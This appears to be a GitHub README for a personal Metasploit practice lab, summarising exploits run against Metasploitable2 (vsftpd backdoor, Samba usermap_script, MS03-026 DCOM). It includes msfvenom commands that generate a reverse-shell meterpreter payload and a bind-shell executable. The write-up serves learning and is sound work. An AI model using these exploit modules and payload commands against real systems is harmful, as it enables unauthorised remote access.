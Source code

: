 # metasploit-practice-lab
Hands-on Metasploit practice using vulnerable VMs like Metasploitable2 to learn exploitation and payload creation.


## 📝 README.md (Professional and recruiter-friendly)

```markdown
# 💣 Metasploit Practice Lab – Exploitation & Payloads

This repository documents my practice using **Metasploit Framework** for penetration testing in safe, isolated environments. All testing was conducted on **legal vulnerable machines** like Metasploitable2 and DVWA.

---

## 🛠️ Tools & Lab Setup

- **Metasploit Framework (msfconsole)**
- **Kali Linux**
- **Metasploitable2** VM (vulnerable target)
- **VirtualBox** or **VMware Workstation**

---

## 🗂️ Repository Structure

```

metasploit-practice-lab/
├── exploits/
│   ├── vsftpd\_234\_backdoor.md
│   ├── samba\_usermap\_script.md
├── payloads/
│   ├── reverse\_shell\_notes.md
│   └── msfvenom\_usage.md
├── screenshots/
│   ├── reverse\_shell\_success.png
│   └── msfconsole\_exploit.png
├── notes/
│   └── metasploit\_basics.md
├── README.md

````

---

## 🔥 Exploits Practiced

### 1️⃣ vsftpd 2.3.4 Backdoor
- Target: Port 21 (FTP)
- Exploit module: `exploit/unix/ftp/vsftpd_234_backdoor`
- Result: Meterpreter shell access

### 2️⃣ Samba Usermap Script (CVE-2007-2447)
- Target: Port 445 (SMB)
- Module: `exploit/multi/samba/usermap_script`
- Result: Gained root shell

### 3️⃣ DCOM Exploit (Windows XP)
- Tested remote Windows exploitation using `exploit/windows/dcerpc/ms03_026_dcom`

---

## 🧪 Payloads Created

### Reverse Shell
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f elf > shell.elf
````

### Bind Shell

```bash
msfvenom -p windows/shell_bind_tcp LPORT=4444 -f exe > shell.exe
```

---

## 📸 Sample Screenshots

| Exploitation                                   | Reverse Shell                                   |
| ---------------------------------------------- | ----------------------------------------------- |
| ![Exploit](screenshots/msfconsole_exploit.png) | ![Shell](screenshots/reverse_shell_success.png) |

---

## 📚 What I Learned

* How to scan, identify, and exploit known vulnerabilities
* Using `msfvenom` to generate custom payloads
* Managing sessions with Meterpreter
* The importance of patching and vulnerability management

---

## ⚠️ Disclaimer

> This project is for **educational and ethical purposes only**. All activities were performed in a controlled lab environment using legal, vulnerable virtual machines.

---

## 🧠 Next Steps

* Add privilege escalation modules
* Practice post-exploitation techniques
* Combine with Nmap for automated exploitation chains

```

